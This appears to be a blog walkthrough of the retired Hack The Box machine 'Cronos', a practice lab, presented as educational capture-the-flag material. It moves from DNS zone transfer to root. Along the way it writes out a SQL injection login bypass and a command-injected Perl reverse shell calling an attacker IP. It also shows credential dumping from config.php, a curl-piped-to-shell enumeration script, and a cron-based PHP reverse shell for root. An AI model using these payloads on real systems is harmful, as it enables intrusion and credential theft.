 ```yaml
---
layout: post
title: "HTB-Cronos"
date: 2020-02-16 18:22:00 +0000
categories: HTB-Walkthrough
---
```


![cronos](/assets/img/cronos.png)

One of my favourite boxes this one...

`nmap -sV -Pn --min-rate 10000 |tee -a cronos.txt`

```

Nmap scan report for 10.10.10.13
Host is up (0.094s latency).
Not shown: 997 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 18:b9:73:82:6f:26:c7:78:8f:1b:39:88:d8:02:ce:e8 (RSA)
|   256 1a:e6:06:a6:05:0b:bb:41:92:b0:28:bf:7f:e5:96:3b (ECDSA)
|_  256 1a:0e:e7:ba:00:cc:02:01:04:cd:a3:a9:3f:5e:22:20 (ED25519)
53/tcp open  domain  ISC BIND 9.10.3-P4 (Ubuntu Linux)
| dns-nsid:
|_  bind.version: 9.10.3-P4-Ubuntu
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

We see port 53 running, lets enumerate it...

```

root@kali:~/HTB/retired/cronos# nslookup
> server 10.10.10.13
Default server: 10.10.10.13
Address: 10.10.10.13#53
> 10.10.10.13
13.10.10.10.in-addr.arpa        name = ns1.cronos.htb.

```

We can add cronos.htb to our /etc/hosts file.

Lets dig a little deeper...

`dig -axfr cronos.htb @10.10.10.13`

```

; <<>> DiG 9.11.5-P4-5.1+b1-Debian <<>> axfr cronos.htb @10.10.10.13
;; global options: +cmd
cronos.htb.             604800  IN      SOA     cronos.htb. admin.cronos.htb. 3 604800 86400 2419200 604800
cronos.htb.             604800  IN      NS      ns1.cronos.htb.
cronos.htb.             604800  IN      A       10.10.10.13
admin.cronos.htb.       604800  IN      A       10.10.10.13
ns1.cronos.htb.         604800  IN      A       10.10.10.13
www.cronos.htb.         604800  IN      A       10.10.10.13
cronos.htb.             604800  IN      SOA     cronos.htb. admin.cronos.htb. 3 604800 86400 2419200 604800
;; Query time: 92 msec
;; SERVER: 10.10.10.13#53(10.10.10.13)
;; WHEN: Fri Jan 24 20:42:44 EST 2020
;; XFR size: 7 records (messages 1, bytes 203)

```

lets take a look now at http://admin.cronos.htb

Its a login page...
We can try some well known weak credentials, they fail so lets try sqli login bypass

In the username field type 

```

admin 'or 1=1# 

```

sometimes blank password is ok, sometimes random input is required.
Splendid, this gets us into the tracert webpage....we can try to inject commands here....

use ; to add command after the ping one; for example:

```

8.8.8.8;perl -e 'use Socket;$i="10.10.14.19";$p=6969;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

```

the perl reverse shell works! we catch the reverse shell on 
`nc -nlvp 6969`

##########################

Taking a look around we know there's always goodies in the config.php file if its available...

```

$ cat config.php                                                                                                   
<?php                                                                                                              
   define('DB_SERVER', 'localhost');                                                                               
   define('DB_USERNAME', 'admin');                                                                                 
   define('DB_PASSWORD', 'kEjdbRigfBHUREiNSDs');                                                                   
   define('DB_DATABASE', 'admin');                                                                                 
   $db = mysqli_connect(DB_SERVER,DB_USERNAME,DB_PASSWORD,DB_DATABASE); 

```

This may be very useful, we can check the mysql database to see if we can find any other creds.

```

$ mysql -u admin -p
Enter password: kEjdbRigfBHUREiNSDs
use admin  
;
show tables;
select * from users;
quit
Tables_in_admin
users
id      username        password
1       admin   4f5fffa7b2340178a716e3832451e058
$ 

```

[g0tmi1k's linux privilege escalation guide is the Bible of linux enum](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/),

one of the first commands I always run (after `sudo -l` and `sudo su`) is
`find / -perm -u=s -type f 2>/dev/null`

```

find / -perm -u=s -type f 2>/dev/null
/bin/ping
/bin/umount
/bin/mount
/bin/fusermount
/bin/su
/bin/ntfs-3g
/bin/ping6
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/snapd/snap-confine
/usr/lib/eject/dmcrypt-get-device
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/bin/chsh
/usr/bin/newuidmap
/usr/bin/sudo
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/at
/usr/bin/pkexec
/usr/bin/newgidmap
/usr/bin/gpasswd
/usr/bin/passwd

```

Its important to become well practiced in the techniqes, methods and commands g0tmilk covers. For convenience many folk suppliment this knowlege with using enumeration scripts.
Theres a few good ones out there, [LinEnum.sh](https://github.com/rebootuser/LinEnum) is a good comprehensive one, but the one ive started using first recently is [linpeas.sh](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite)

We can use curl (when available on targets) to run the enumeration from our attacking machine.

```

curl 10.10.14.19/linpeas.sh |sh |tee -a enum.txt

```

...so we dont even upload the file to the target...neat trick...

Whilst increasingly becomming my goto method of enum, when the conditions allow, its not actually needed here; the way forward is practically right in front of us.

In /var/www/laravel there is an interesting file called 'artisan'.
Looking at our enum.txt output from linpeas.sh we find that cronjob run by root executes it.

our wwwdata user has write privileges in the www folder, so we can replace with evil.php get rootshell....
the php reverse shell can be downloaded from pentestmonkey's website, but its also available in /usr/share/webshells/
we just need to modify the lhost and port settings.

There's a few ways we can get the file to the target... we can copy'n'paste it into vi, we can use `wget` or `curl -O`

```

root@kali:~/HTB/retired/cronos# nc -nlvp 31337
listening on [any] 31337 ...
connect to [10.10.14.19] from (UNKNOWN) [10.10.10.13] 56894
Linux cronos 4.4.0-72-generic #93-Ubuntu SMP Fri Mar 31 14:07:41 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 04:38:01 up  2:55,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=0(root) gid=0(root) groups=0(root)
/bin/sh: 0: can't access tty; job control turned off
# cat /home/*/user.txt
51xxxxxxxxxxxxxxxxxxxxxxxxxxxx3b
# cat /root/root.txt
1xxxxxxxxxxxxxxxxxxxxxxxxxxxxxa0

```

#############################################

Exploiting suid files to escalate privileges is an important technique to practice and remember to look out for,
it will often be the best (and sometimes only) way to get root. 
